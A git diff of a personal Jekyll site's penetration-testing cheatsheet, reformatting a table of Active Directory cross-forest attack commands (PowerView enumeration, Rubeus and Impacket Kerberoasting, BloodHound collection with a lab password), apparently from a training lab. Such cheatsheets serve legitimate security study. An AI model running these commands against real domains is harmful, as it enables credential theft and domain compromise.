

Before and after one commit to sahabrifki/sahabrifki.github.io, a Jekyll site: the page built from Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 24169 px. Shown: the whole window at 90% size, without its empty margins (108-1164 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 25288 px from its top, so only the background shows below that.

````diff
--- a/Cheatsheet.md
+++ b/Cheatsheet.md
@@ -317,16 +317,15 @@ By Default this is not my own, This all information is collected from multiple r
 | `raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm` | Impacket tool that automatically performs an attack that escalates from child to parent domain. |
 
 
-
 # Trust Relationships - Cross-Forest
 
 | Command                                                      | Description                                                  |
 | ------------------------------------------------------------ | ------------------------------------------------------------ |
-| `Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL \| select SamAccountName` | PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host. |
-| `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc \| select samaccountname,memberof` | PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host. |
-| ` .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap` | Uses `Rubeus` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host. |
-| `Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL` | PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host. |
-| `Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator` | PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host. |
-| `GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley` | Impacket tool used to request (`-request`) the TGS ticket of an account in a target Windows domain (`-target-domain`) from a Linux-based host. |
-| `bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2` | Runs the Python implementation of `BloodHound` against a target Windows domain from a Linux-based host. |
-| `zip -r ilfreight_bh.zip *.json`                             | Used to compress multiple files into 1 single `.zip` file to be uploaded into the BloodHound GUI. |
+| ```Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL \| select SamAccountName``` | PowerView tool used to enumerate accounts for associated `SPNs` from a Windows-based host. |
+| ```Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc \| select samaccountname,memberof``` | PowerView tool used to enumerate the `mssqlsvc` account from a Windows-based host. |
+| ```Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap``` | Uses ```Rubeus``` to perform a Kerberoasting Attack against a target Windows domain (`/domain:FREIGHTLOGISTICS.local`) from a Windows-based host. |
+| ```Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL``` | PowerView tool used to enumerate groups with users that do not belong to the domain from a Windows-based host. |
+| ```Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator``` | PowerShell cmd-let used to remotely connect to a target Windows system from a Windows-based host. |
+| ```GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley``` | Impacket tool used to request (`-request`) the TGS ticket of an account in a target Windows domain (`-target-domain`) from a Linux-based host. |
+| ```bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2``` | Runs the Python implementation of `BloodHound` against a target Windows domain from a Linux-based host. |
+| ```zip -r ilfreight_bh.zip *.json```| Used to compress multiple files into 1 single `.zip` file to be uploaded into the BloodHound GUI. |
````
